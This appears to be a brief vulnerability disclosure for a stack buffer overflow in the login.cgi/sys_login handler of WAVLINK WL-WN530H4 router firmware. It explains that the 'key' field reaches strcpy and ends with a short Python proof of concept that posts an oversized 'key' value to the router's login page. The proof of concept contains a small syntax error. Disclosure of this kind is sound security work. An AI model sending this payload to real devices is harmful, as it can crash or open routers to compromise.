


# buff overflow

## WAVLINK_WL_WN530H4

version: 20220801

## Description:

There is a buff overflow in login.cgi/sys_login

## Source:

you may download it from : [WL-WN530H4 - WAVLINK See the world! Powered by Wavlink](https://www.wavlink.com/en_us/firmware/details/c5834c4010.html)

## Analyse:



get value from key



then call strcpy, cause buff overflow

## POC

```
url = "http://192.168.0.1/cgi-bin/login.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'login', 'key': + payload})
```
